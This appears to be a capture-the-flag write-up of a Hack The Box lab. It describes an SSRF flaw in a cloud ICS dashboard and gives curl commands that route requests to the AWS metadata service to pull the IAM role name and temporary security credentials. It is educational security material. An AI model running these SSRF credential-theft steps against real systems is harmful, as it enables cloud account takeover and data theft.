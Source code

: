 **Description:**  
After a relentless week-long effort, a lone Task Force operative successfully breached Volnaya's cloud-based ICS monitoring network, securing us permanent access to their front-end monitoring dashboard and opening a critical window into their industrial infrastructure. Your goal is to infiltrate deeper, locate sensitive data, and enable the Task Force to assume control of their core systems. IP: 3.15.107.79  
**HTB Difficulty Rating:** Very easy  
**How it felt:** WOOOH LIMITLESS PAIN!

# Steps taken
## Initial Recon and discovery:
Unfortunately, Shodan.io didn't have any information on this 3.15.107.79, but IP identified it as an Amazon AWS server. Launched community Burp Suite and browsed to 3.15.107.79 where a dashboard was presented. The Dashboard contained multiple blocks of information and an input button (Check Status).
![Visual ICS Monitoring Dashboard](Dashboard.png)  

When inspecting the response in HTTP History of Burp Suite, the button sends a POST request to https://inyunqef0e.execute-api.us-east-2.amazonaws.com/api/status, leading to https://inyunqef0e.execute-api.us-east-2.amazonaws.com/api/, revealing https://inyunqef0e.execute-api.us-east-2.amazonaws.com/api/private which unfortunately required an authentication token.
![Form](Form.png)   
![Private Endpoint API](Endpoints.png)

Tinkered with https://inyunqef0e.execute-api.us-east-2.amazonaws.com/api/private in curl for a bit and eventually got stuck requiring a security token. Resulted in pivoting back to the Dashboard, and was curious to see what would happen if the URL was switched in the form to https://inyunqef0e.execute-api.us-east-2.amazonaws.com/api/private. The result appeared to do something, combined with the alert (potential hint) previously on the dashboard about a successful SSRF attack led to 2 hours of research on SSRF.
![Modified_Form](Modified_Form.png)   
![Result](Result_Of_MF.png)

## Exploitation
**These next steps could be done using the form, but I found myself using curl instead.**   
**Fun Note:** AWS uses 169.254.169.254 as the metadata-IP where the metadata service can be accessed via http://169.254.169.254/latest/meta-data/ from the E2 instance.
1) Used ```curl -X POST http://3.15.107.79/ -d "url=https://inyunqef0e.execute-api.us-east-2.amazonaws.com/api/status"``` to test curl and see what would happen to the output. The output appeared to be a huge chunk instead of nicely spread out. This led me to further investigate SSRF on http://3.15.107.79/
   
2) Next tried ```curl -X POST http://3.15.107.79/ -d "url=http://169.254.169.254/latest/meta-data/"``` revealing the **iam/** metadata key. The goal was to extract the temporary security credentials from ```iam/security-credentials/role-name```.   
![I am](iam_exposed.png)   
3) Used ```curl -X POST http://3.15.107.79/ -d "url=http://169.254.169.254/latest/meta-data/iam/security-credentials/"``` to get the role-name which was "APICallerRole"   
![Role Name](Role_Name.png)
4) To get the temp security credentials used ```curl -X POST http://3.15.107.79/ -d "url=http://169.254.169.254/latest/meta-data/iam/security-credentials/APICallerRole"```   
![Temp Sec Credentials](Temp_Sec_Credentials.png)
   
